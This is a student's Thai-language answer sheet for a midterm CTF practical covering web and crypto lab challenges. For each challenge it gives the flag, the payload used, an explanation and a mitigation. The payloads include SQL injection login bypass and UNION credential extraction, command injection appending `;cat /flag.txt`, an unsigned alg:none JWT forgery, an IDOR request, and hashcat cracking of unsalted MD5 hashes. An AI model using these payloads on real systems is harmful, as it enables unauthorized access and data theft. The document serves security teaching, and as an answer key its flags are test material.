



# Week 9 - Midterm CTF Practical - Answers

**Name:** Panaikron Marohabut
**Student ID:** 6631503126

---

## 1. Boolean Bypass (SQLi) — 15 pts

- **Flag:** `FLAG{sqli_demo}`
- **Payload:** `GET /login?user=admin'--&pw=x`
  - ดึง flag ด้วย `GET /search?q=' UNION SELECT username,password FROM users--`
- **ทำยังไง:** ใส่ `admin'--` ในช่อง username — เครื่องหมาย `--` คือ comment ของ SQL ทำให้ส่วนเช็ค password ถูกตัดทิ้ง เลย login เป็น admin ได้โดยไม่รู้รหัส
- **Mitigation:** อย่าเอา input ไปต่อกับคำสั่ง SQL ตรงๆ ให้ใช้ parameterized query เช่น `execute("SELECT id,username FROM users WHERE username=? AND password=?", (user,pw))`

---

## 2. Shell Out (Command injection) — 15 pts

- **Flag:** `FLAG{cmdi_demo}`
- **Payload:** `GET /ping?host=127.0.0.1;cat /flag.txt`
- **ทำยังไง:** ช่อง host เอาไปต่อกับคำสั่ง shell ตรงๆ ใส่ `;` แล้วตามด้วย `cat /flag.txt` เลยแอบสั่งคำสั่งเพิ่มอีกอันให้อ่านไฟล์ flag
- **Mitigation:** อย่าใช้ `shell=True` ให้ส่ง argument เป็น list เช่น `subprocess.run(["ping","-c","1",host])` และเช็คว่า host ถูกรูปแบบก่อนรัน

---

## 3. Pop the Alert (Stored XSS) — 15 pts [screenshot required]

- **Flag:** (proof = screenshot `3-6631503126.png`)
- **Payload:** `` (POST to `/comments`, field `body`)
- **ทำยังไง:** พิมพ์ script ลงในช่อง comment — ระบบเก็บไว้แล้วแสดงเป็น HTML ดิบโดยไม่กรอง พอ user อื่นเปิดหน้า comment script ก็รันใน browser ของเขา (ลองเปิดใน incognito แล้ว alert เด้งจริง)
- **Mitigation:** escape ข้อความก่อนแสดงผล (เช่น Jinja autoescape หรือใช้ `textContent`) + ตั้ง Content-Security-Policy `[R3]`
- **Screenshot:** `3-6631503126.png`

---

## 4. Not Your Order (IDOR) — 15 pts

- **Flag:** `FLAG{idor_demo}`
- **Payload:** `POST /login {"user":"alice","pw":"alicepw"}` เอา JWT ที่ได้ แล้ว `GET /api/orders/2 -H "Authorization: Bearer <token>"`
- **ทำยังไง:** login เป็น alice แล้วลองขอ order เลข 2 ซึ่งเป็นของ bob — server เช็คแค่ว่า login แล้ว แต่ลืมเช็คว่า order นี้เป็นของเราหรือเปล่า เลยอ่านของคนอื่นได้
- **Mitigation:** ก่อนส่งข้อมูลต้องเช็คเจ้าของด้วย เช่น `if order["owner"] != current_user(): return 403` แค่ login ผ่านอย่างเดียวไม่พอ `[R4]`

---

## 5. Forge Ahead (Broken JWT) — 15 pts

- **Flag:** `FLAG{jwt_demo}`
- **Payload:** ปลอม token เอง = `base64url({"alg":"none","typ":"JWT"}) + "." + base64url({"sub":"admin"}) + "."` แล้ว `GET /api/admin -H "Authorization: Bearer <token>"`
  - วิธีสร้าง: ทำ header ที่บอก `alg=none` + payload ที่บอก `sub=admin` → encode เป็น base64url → ต่อท้ายด้วยจุดเปล่าๆ (ไม่ต้องมี signature)
- **ทำยังไง:** server เช็ค token ไม่ดี — พอเห็น `alg:none` ก็เชื่อเลยโดยไม่ดู signature เลยโกงบอกว่า "ฉันคือ admin" ได้เอง
- **Mitigation:** ไม่ยอมรับ `alg=none` เด็ดขาด + อนุญาตแค่ algorithm ที่ตั้งใจไว้ + ใช้ secret ที่สุ่มยาวๆ เดาไม่ได้ `[R5]`

---

## 6. Crack It (Weak hash) — 15 pts [screenshot required]

- **Flag:** `password123` (ค่าที่ถอดได้; crack ครบ 4/4)
- **Payload:** `hashcat -m 0 hashes_clean.txt wordlist.txt`
  - `482c811da5d5b4bc6d497ffa98491e38` → `password123`
  - `e10adc3949ba59abbe56e057f20f883e` → `123456`
  - `25f9e794323b453885f5181f1b624d0b` → `123456789`
  - `5f4dcc3b5aa765d61d8327deb882cf99` → `password`
- **ทำยังไง:** เอาไฟล์ hash มาให้ hashcat ลองเดาจาก wordlist — MD5 เร็วมากและไม่มี salt เลยเดาแตกแทบทันที
- **Mitigation:** เลิกใช้ MD5 เปล่าๆ เก็บ password ให้ใช้ argon2id หรือ bcrypt ที่ใส่ salt ให้แต่ละคนและตั้งให้ช้าพอที่จะกันการเดา `[R6]`
- **Screenshot:** `6-6631503126.png`

---

## 7. Penguin (ECB oracle) — 10 pts [screenshot required]

- **Flag:** (proof = ciphertext block ตรงกันใน `7-6631503126.png`)
- **Payload:** `encrypt_ecb(b"A"*32).hex()` → `ct[:32] == ct[32:64]` = `3bfd04cc0d7ed55358e2cbe19de21383`
  - ส่ง "A" 32 ตัว (= 2 block เหมือนกัน) → ได้ ciphertext 2 block เหมือนกันตาม
- **Structure ที่รั่วไหล:** ECB เข้ารหัสทีละ block 16 bytes แยกกัน ไม่มีอะไรมาปน → block ขาเข้าเหมือนกันได้ block ขาออกเหมือนกัน → ใครดู ciphertext ก็เห็น pattern ของ plaintext ได้ (เหมือนรูปเพนกวินที่เข้ารหัสแล้วยังเห็นเป็นรูปเพนกวิน)
- **Mitigation:** อย่าใช้ ECB — ใช้โหมดที่มี IV/nonce เปลี่ยนทุกครั้ง เช่น AES-GCM หรือ CBC + random IV `[R7]`
- **Screenshot:** `7-6631503126.png`

---
